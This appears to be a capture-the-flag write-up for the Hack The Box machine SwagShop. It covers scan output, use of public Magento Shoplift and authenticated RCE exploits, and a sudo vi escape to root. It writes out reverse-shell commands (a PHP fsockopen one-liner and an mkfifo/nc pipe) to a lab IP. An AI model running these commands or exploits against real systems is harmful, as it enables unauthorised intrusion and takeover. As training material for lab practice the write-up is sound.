






# Walkthrough 


## Information Gathering 


The target ip attempts to resolve to `swagshop.htb`. 




### Nmap Scans: 

All port scan:
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


`-sC -sV` scan:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


#### --script vuln scan: 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=swagshop.htb
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://swagshop.htb:80/
|     Form id: search_mini_form
|     Form action: http://swagshop.htb/index.php/catalogsearch/result/
|     
|     Path: http://swagshop.htb:80/
|     Form id: newsletter-validate-detail
|     Form action: http://swagshop.htb/index.php/newsletter/subscriber/new/
|     
|     Path: http://swagshop.htb:80/index.php/
|     Form id: search_mini_form
|     Form action: http://swagshop.htb/index.php/catalogsearch/result/
|     
|     Path: http://swagshop.htb:80/index.php/
|     Form id: newsletter-validate-detail
|     Form action: http://swagshop.htb/index.php/newsletter/subscriber/new/
|     
|     Path: http://swagshop.htb:80/index.php/
|     Form id: search_mini_form
|     Form action: http://swagshop.htb/index.php/catalogsearch/result/
|     
|     Path: http://swagshop.htb:80/index.php/
|     Form id: newsletter-validate-detail
|     Form action: http://swagshop.htb/index.php/newsletter/subscriber/new/
|     
|     Path: http://swagshop.htb:80/index.php/customer/account/login/
|     Form id: search_mini_form
|     Form action: http://swagshop.htb/index.php/catalogsearch/result/
|     
|     Path: http://swagshop.htb:80/index.php/customer/account/login/
|     Form id: login-form
|     Form action: http://swagshop.htb/index.php/customer/account/loginPost/
|     
|     Path: http://swagshop.htb:80/index.php/customer/account/login/
|     Form id: newsletter-validate-detail
|     Form action: http://swagshop.htb/index.php/newsletter/subscriber/new/
|     
|     Path: http://swagshop.htb:80/index.php/checkout/cart/
|     Form id: search_mini_form
|     Form action: http://swagshop.htb/index.php/catalogsearch/result/
|     
|     Path: http://swagshop.htb:80/index.php/checkout/cart/
|     Form id: newsletter-validate-detail
|     Form action: http://swagshop.htb/index.php/newsletter/subscriber/new/
|     
|     Path: http://swagshop.htb:80/index.php/privacy-policy-cookie-restriction-mode/
|     Form id: search_mini_form
|     Form action: http://swagshop.htb/index.php/catalogsearch/result/
|     
|     Path: http://swagshop.htb:80/index.php/privacy-policy-cookie-restriction-mode/
|     Form id: newsletter-validate-detail
|     Form action: http://swagshop.htb/index.php/newsletter/subscriber/new/
|     
|     Path: http://swagshop.htb:80/index.php/customer/account/login/
|     Form id: search_mini_form
|     Form action: http://swagshop.htb/index.php/catalogsearch/result/
|     
|     Path: http://swagshop.htb:80/index.php/customer/account/login/
|     Form id: login-form
|     Form action: http://swagshop.htb/index.php/customer/account/loginPost/
|     
|     Path: http://swagshop.htb:80/index.php/customer/account/login/
|     Form id: newsletter-validate-detail
|     Form action: http://swagshop.htb/index.php/newsletter/subscriber/new/
|     
|     Path: http://swagshop.htb:80/index.php/hack-the-box-logo-t-shirt.html
|     Form id: search_mini_form
|     Form action: http://swagshop.htb/index.php/catalogsearch/result/
|     
|     Path: http://swagshop.htb:80/index.php/hack-the-box-logo-t-shirt.html
|     Form id: product_addtocart_form
|     Form action: http://swagshop.htb/index.php/checkout/cart/add/uenc/aHR0cDovL3N3YWdzaG9wLmh0Yi9pbmRleC5waHAvaGFjay10aGUtYm94LWxvZ28tdC1zaGlydC5odG1sP19fX1NJRD1V/product/1/form_key/QbHaO9uoeFj7Zxo1/
|     
|     Path: http://swagshop.htb:80/index.php/hack-the-box-logo-t-shirt.html
|     Form id: newsletter-validate-detail
|     Form action: http://swagshop.htb/index.php/newsletter/subscriber/new/
|     
|     Path: http://swagshop.htb:80/index.php/checkout/cart/
|     Form id: search_mini_form
|     Form action: http://swagshop.htb/index.php/catalogsearch/result/
|     
|     Path: http://swagshop.htb:80/index.php/checkout/cart/
|     Form id: newsletter-validate-detail
|     Form action: http://swagshop.htb/index.php/newsletter/subscriber/new/
|     
|     Path: http://swagshop.htb:80/index.php/about-magento-demo-store/
|     Form id: search_mini_form
|     Form action: http://swagshop.htb/index.php/catalogsearch/result/
|     
|     Path: http://swagshop.htb:80/index.php/about-magento-demo-store/
|     Form id: newsletter-validate-detail
|     Form action: http://swagshop.htb/index.php/newsletter/subscriber/new/
|     
|     Path: http://swagshop.htb:80/index.php/catalogsearch/advanced/
|     Form id: search_mini_form
|     Form action: http://swagshop.htb/index.php/catalogsearch/result/
|     
|     Path: http://swagshop.htb:80/index.php/catalogsearch/advanced/
|     Form id: form-validate
|     Form action: http://swagshop.htb/index.php/catalogsearch/advanced/result/
|     
|     Path: http://swagshop.htb:80/index.php/catalogsearch/advanced/
|     Form id: newsletter-validate-detail
|     Form action: http://swagshop.htb/index.php/newsletter/subscriber/new/
|     
|     Path: http://swagshop.htb:80/index.php/5-x-hack-the-box-sticker.html
|     Form id: search_mini_form
|     Form action: http://swagshop.htb/index.php/catalogsearch/result/
|     
|     Path: http://swagshop.htb:80/index.php/5-x-hack-the-box-sticker.html
|     Form id: product_addtocart_form
|     Form action: http://swagshop.htb/index.php/checkout/cart/add/uenc/aHR0cDovL3N3YWdzaG9wLmh0Yi9pbmRleC5waHAvNS14LWhhY2stdGhlLWJveC1zdGlja2VyLmh0bWw_X19fU0lEPVU,/product/3/form_key/WL1UAW6nnYr2zVwi/
|     
|     Path: http://swagshop.htb:80/index.php/5-x-hack-the-box-sticker.html
|     Form id: newsletter-validate-detail
|_    Form action: http://swagshop.htb/index.php/newsletter/subscriber/new/
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /app/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /errors/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /includes/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /lib/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_http-dombased-xss: Couldn't find any DOM based XSS.
```


--- 

### Directory Enumeration 

`gobuster dir -u http://swagshop.htb -w /usr/share/wordlists/dirb/common.txt`
```
.hta                 (Status: 403) [Size: 277]
.htaccess            (Status: 403) [Size: 277]
.htpasswd            (Status: 403) [Size: 277]
app                  (Status: 301) [Size: 310] [--> http://swagshop.htb/app/]
errors               (Status: 301) [Size: 313] [--> http://swagshop.htb/errors/]
favicon.ico          (Status: 200) [Size: 1150]
includes             (Status: 301) [Size: 315] [--> http://swagshop.htb/includes/]
index.php            (Status: 200) [Size: 16097]
js                   (Status: 301) [Size: 309] [--> http://swagshop.htb/js/]
lib                  (Status: 301) [Size: 310] [--> http://swagshop.htb/lib/]
media                (Status: 301) [Size: 312] [--> http://swagshop.htb/media/]
pkginfo              (Status: 301) [Size: 314] [--> http://swagshop.htb/pkginfo/]
server-status        (Status: 403) [Size: 277]
shell                (Status: 301) [Size: 312] [--> http://swagshop.htb/shell/]
skin                 (Status: 301) [Size: 311] [--> http://swagshop.htb/skin/]
var                  (Status: 301) [Size: 310] [--> http://swagshop.htb/var/]
Progress: 4613 / 4613 (100.00%)
```


#### Findings:

The Magento version is likely somewhere around 1.9.x

I also ran the same wordlist with the `-x txt` extension scan but nothing extra turned up.


---

## Vulnerability Assessment 


### Magento: 

`Magento` is a highly customisable, open-source e-commerce platform built on PHP. It provides online merchants with complete control over the shopping cart system, storefront design, and inventory management. Acquired by Adobe in 2018, its premium enterprise version is now known as Adobe Commerce.

Magescan is a tool that can be used to enumerate Magento:

#### Magescan findings: 

```
magescan scan:all 10.129.229.138
Scanning http://10.129.229.138/...


  Magento Information


+-----------+------------------+
| Parameter | Value            |
+-----------+------------------+
| Edition   | Community        |
| Version   | 1.9.0.0, 1.9.0.1 |
+-----------+------------------+


  Installed Modules


No detectable modules were found


  Catalog Information


+------------+---------+
| Type       | Count   |
+------------+---------+
| Categories | Unknown |
| Products   | Unknown |
+------------+---------+


  Patches


+------------+---------+
| Name       | Status  |
+------------+---------+
| SUPEE-5344 | Unknown |
| SUPEE-5994 | Unknown |
| SUPEE-6285 | Unknown |
| SUPEE-6482 | Unknown |
| SUPEE-6788 | Unknown |
| SUPEE-7405 | Unknown |
| SUPEE-8788 | Unknown |
+------------+---------+


  Sitemap


Sitemap is not declared in robots.txt
Sitemap is not accessible: http://10.129.229.138/sitemap.xml


  Server Technology


+--------+------------------------+
| Key    | Value                  |
+--------+------------------------+
| Server | Apache/2.4.29 (Ubuntu) |
+--------+------------------------+


  Unreachable Path Check


+----------------------------------------------+---------------+----------------------+
| Path                                         | Response Code | Status               |
+----------------------------------------------+---------------+----------------------+
| .bzr/                                        | 404           | Pass                 |
| .cvs/                                        | 404           | Pass                 |
| .git/                                        | 404           | Pass                 |
| .git/config                                  | 404           | Pass                 |
| .git/refs/                                   | 404           | Pass                 |
| .gitignore                                   | 404           | Pass                 |
| .hg/                                         | 404           | Pass                 |
| .idea                                        | 404           | Pass                 |
| .svn/                                        | 404           | Pass                 |
| .svn/entries                                 | 404           | Pass                 |
| admin/                                       | 404           | Pass                 |
| admin123/                                    | 404           | Pass                 |
| adminer.php                                  | 404           | Pass                 |
| administrator/                               | 404           | Pass                 |
| adminpanel/                                  | 404           | Pass                 |
| aittmp/index.php                             | 404           | Pass                 |
| app/etc/enterprise.xml                       | 404           | Pass                 |
| app/etc/local.xml                            | 200           | Fail                 |
| backend/                                     | 404           | Pass                 |
| backoffice/                                  | 404           | Pass                 |
| beheer/                                      | 404           | Pass                 |
| capistrano/config/deploy.rb                  | 404           | Pass                 |
| chive                                        | 404           | Pass                 |
| composer.json                                | 404           | Pass                 |
| composer.lock                                | 404           | Pass                 |
| vendor/composer/installed.json               | 404           | Pass                 |
| config/deploy.rb                             | 404           | Pass                 |
| control/                                     | 404           | Pass                 |
| dev/tests/functional/etc/config.xml          | 404           | Pass                 |
| downloader/index.php                         | 404           | Pass                 |
| index.php/rss/order/NEW/new                  | 302           | http://swagshop.htb/ |
| info.php                                     | 404           | Pass                 |
| mageaudit.php                                | 404           | Pass                 |
| magmi/                                       | 404           | Pass                 |
| magmi/conf/magmi.ini                         | 404           | Pass                 |
| magmi/web/magmi.php                          | 404           | Pass                 |
| Makefile                                     | 404           | Pass                 |
| manage/                                      | 404           | Pass                 |
| management/                                  | 404           | Pass                 |
| manager/                                     | 404           | Pass                 |
| modman                                       | 404           | Pass                 |
| p.php                                        | 404           | Pass                 |
| panel/                                       | 404           | Pass                 |
| phpinfo.php                                  | 404           | Pass                 |
| phpmyadmin                                   | 404           | Pass                 |
| README.md                                    | 404           | Pass                 |
| README.txt                                   | 404           | Pass                 |
| shell/                                       | 200           | Fail                 |
| shopadmin/                                   | 404           | Pass                 |
| site_admin/                                  | 404           | Pass                 |
| var/export/                                  | 200           | Fail                 |
| var/export/export_all_products.csv           | 404           | Pass                 |
| var/export/export_customers.csv              | 404           | Pass                 |
| var/export/export_product_stocks.csv         | 404           | Pass                 |
| var/log/                                     | 404           | Pass                 |
| var/log/exception.log                        | 404           | Pass                 |
| var/log/payment_authnetcim.log               | 404           | Pass                 |
| var/log/payment_authorizenet.log             | 404           | Pass                 |
| var/log/payment_authorizenet_directpost.log  | 404           | Pass                 |
| var/log/payment_cybersource_soap.log         | 404           | Pass                 |
| var/log/payment_ogone.log                    | 404           | Pass                 |
| var/log/payment_payflow_advanced.log         | 404           | Pass                 |
| var/log/payment_payflow_link.log             | 404           | Pass                 |
| var/log/payment_paypal_billing_agreement.log | 404           | Pass                 |
| var/log/payment_paypal_direct.log            | 404           | Pass                 |
| var/log/payment_paypal_express.log           | 404           | Pass                 |
| var/log/payment_paypal_standard.log          | 404           | Pass                 |
| var/log/payment_paypaluk_express.log         | 404           | Pass                 |
| var/log/payment_pbridge.log                  | 404           | Pass                 |
| var/log/payment_verisign.log                 | 404           | Pass                 |
| var/log/system.log                           | 404           | Pass                 |
| var/report/                                  | 404           | Pass                 |
+----------------------------------------------+---------------+----------------------+
```


The version is: **1.9.0.0, 1.9.0.1**

### Magento Shoplift

https://blog.checkpoint.com/security/analyzing-magento-vulnerability/  -  Article from the group who discovered the Shoplift vulnerability

https://www.exploit-db.com/exploits/37977  -  Exploit Code to create an admin account

https://www.exploit-db.com/exploits/37811  -  Authenticated RCE Exploit

## Exploitation

### Exploit 37977

Here's the admin panel:



Here is the exploit that allows an attacker to inject their own credentials into Magento to be able to log in to the Admin panel:
https://www.exploit-db.com/exploits/37977

For this HTB target, the code needs to be updated with the target:
```
target = "http://swagshop.htb/index.php"
```

When the exploit succeeds against the target, access to the admin panel will be obtained.




### RCE Exploit 37811

https://www.exploit-db.com/exploits/37811

First, download the exploit to your machine with searchsploit:
```
searchsploit -m php/webapps/37811.py
```

The script will need to be edited. In the username and password section of `Config.` enter the credentials that were posted to the target, in this case `forme:forme`.

The exploit may hit an error. In my case I commented the following code out:

```
br.select_form(nr=0)
#br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
#br.form.fixup()
br['login[username]'] = username
br['login[password]'] = password
```

The script was then executed and worked against the target:
`python2 37811.py http://swagshop.htb/index.php/admin "uname -a"`
```
Linux swagshop 4.15.0-213-generic #224-Ubuntu SMP Mon Jun 19 13:30:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

The next step is to set up a listener and receive a reverse shell: 

```
python2 37811.py http://swagshop.htb/index.php/admin "php -r '\$sock=fsockopen(\"10.10.14.187\",1234);'"
```

This worked and a connection was received but it fell off almost instantly. 

The command below was tested and successfully sent a stable shell:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.187 1234 >/tmp/f
```




---

## Privilege Escalation 

`sudo -l`
```
Matching Defaults entries for www-data on swagshop: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin User www-data may run the following commands on swagshop: (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

This means `www-data` can run `vi` as sudo but only on a file inside the `/var/www/html `directory. 

It contains: 




`sudo /usr/bin/vi -/var/www/html/LICENSE.txt`

This will open the file. Hit `ESC` and then type `:!/bin/sh` and hit `ENTER`. The terminal was acting a little weird when I did this but I managed to wrangle it with the `clear` command and then jumped into the root directory:




# Summary

The target was identified as a Linux host running Apache 2.4.29. Enumeration revealed a Magento e-commerce application running on port 80. Directory enumeration and Magento-specific scanning identified the application version as Magento Community Edition 1.9.0.0/1.9.0.1, which is vulnerable to the Magento Shoplift vulnerability (SUPEE-5344). The exposed `app/etc/local.xml` file also confirmed Magento configuration exposure, and further investigation showed the target had not been patched against known Magento vulnerabilities.

Exploitation was performed in two stages. First, the Shoplift exploit was used to create an administrative Magento account, providing access to the admin panel. The authenticated Magento Post-Auth Remote Code Execution exploit (Exploit-DB 37811) was then modified to use the obtained credentials and successfully executed commands on the server. A reverse shell was obtained as the www-data user. Privilege escalation was achieved by enumerating sudo permissions, revealing that the compromised user could run vi as root on files within the `/var/www/html` directory. By launching vi with the permitted file and using the `:!/bin/sh` escape sequence, a root shell was obtained, completing the compromise of the system.